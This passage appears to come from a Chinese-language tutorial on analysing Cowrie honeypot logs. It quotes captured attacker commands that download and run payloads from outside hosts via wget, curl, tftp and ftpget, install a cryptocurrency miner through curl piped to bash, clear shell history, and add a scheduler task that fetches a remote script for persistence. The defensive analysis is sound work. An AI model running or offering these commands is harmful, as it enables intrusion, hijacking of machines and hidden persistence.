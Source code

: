 我们还可以查找各种攻击者试图运行的命令。 在这些例子中，他们试图下载额外的 Linux 工具，因为蜜罐似乎缺少一些，或可能一些恶意软件持续运行:

```sh
2021-07-19T02:31:55.443537Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,5,141.98.10.56] Command found: wget http://142.93.105.28/a
2021-07-17T11:44:11.929645Z [CowrieTelnetTransport,4,58.253.13.80] CMD: cd /tmp || cd /var/ || cd /var/run || cd /mnt || cd /root || cd /; rm -rf i; wget http://58.253.13.80:60232/i; curl -O http://58.253.13.80:60232/i; /bin/busybox wget http://58.253.13.80:60232/i; chmod 777 i || (cp /bin/ls ii;cat i>ii;rm i;cp ii i;rm ii); ./i; echo -e '\x63\x6F\x6E\x6E\x65\x63\x74\x65\x64'
2021-07-18T07:12:02.082679Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,33,209.141.53.60] executing command "b'cd /tmp || cd
 /var/run || cd /mnt || cd /root || cd /; wget http://205.185.126.121/8UsA.sh; curl -O http://205.185.126.121/8UsA.sh; chmod 777 8UsA.sh; sh 8UsA.sh; tftp 205.185.126.121 -c get t8UsA.sh; chmod 777 t8UsA.sh; sh t8UsA.sh; tftp -r t8UsA2.sh -g 205.185.126.121; chmod 777 t8UsA2.sh; sh t8UsA2.sh; ftpget -v -u anonymous -p
anonymous -P 21 205.185.126.121 8UsA1.sh 8UsA1.sh; sh 8UsA1.sh; rm -rf 8UsA.sh t8UsA.sh t8UsA2.sh 8UsA1.sh; rm -rf *'"
```

注意，第一个攻击者在末尾以十六进制形式发送了一个 ASCII 字符串`'\x63\x6F\x6E\x6E\x65\x63\x74\x65\x64'`，即“connected”。 这可能是为了躲避入侵防御。 Base64 编码是您将在蜜罐日志中看到的另一种常见的规避技术。

第二个攻击者有一系列`rm`命令，用于在他们完成目标后清理他们的各种工作文件。

请注意，您在 SSH 日志中可能看到的另一件事情是语法错误。 通常这些都是来自测试较差的脚本，但一旦更频繁地建立会话，您将看到一个真正的人在敲击键盘，因此您可以从任何错误中了解他们的技能水平(或他们所在时区的深夜)。

在下面这些例子中，攻击者试图下载加密货币矿工应用，将他们新入侵的 Linux 主机添加到他们的加密货币挖掘“农场”:

```sh
2021-07-19T02:31:55.439658Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,5,141.98.10.56] executing command "b'curl -s -L https://raw.githubusercontent.com/C3Pool/xmrig_setup/master/setup_c3pool_miner.sh | bash -s 4ANkemPGmjeLPgLfyYupu2B8Hed2dy8i6XYF7ehqRsSfbvZM2Pz7 bDeaZXVQAs533a7MUnhB6pUREVDj2LgWj1AQSGo2HRj; wget http://142.93.105.28/a; chmod 777 a; ./a; rm -rfa ; history -c'"
2021-07-19T04:28:49.356339Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,9,142.93.97.193] executing command "b'curl -s -L https://raw.githubusercontent.com/C3Pool/xmrig_setup/master/setup_c3pool_miner.sh | bash -s 4ANkemPGmjeLPgLfyYupu2B8Hed2dy8i6XYF7ehqRsSfbvZM2Pz7 bDeaZXVQAs533a7MUnhB6pUREVDj2LgWj1AQSGo2HRj; wget http://142.93.105.28/a; chmod 777 a; ./a; rm -rfa; history -c'"
```

注意，它们都在它们的命令中添加了一个`history –c`附录，该附录清除了当前会话的交互历史，以隐藏攻击者的活动。

在这个例子中，攻击者试图添加一个恶意软件下载到 Linux 调度程序 cron 中，这样他们就可以保持持久性——如果他们的恶意软件被终止或删除，当下一次计划任务到来时，它将被重新下载并重新安装:

```sh
2021-07-19T04:20:03.262591Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,4,103.203.177.10] executing command "b'/system scheduler add name="U6" interval=10m on-event="/tool fetch url=http://bestony.club/poll/24eff58f-9d8a-43ae-96de-71c95d9e6805 mode=http dst-path=7wmp0b4s.rsc\\r\\n/import 7wmp0b4s.rsc" policy=api,ftp,local,password,policy,read,reboot,sensitive,sniff,ssh,telnet,test,web,winbox,write'"
```

攻击者试图下载的各种文件被收集在`/srv/cowrie/var/lib/cowrie/downloads`目录中。

你可以自定义宝贝蜜罐-一些常见的改变，你可能会设在以下地方:
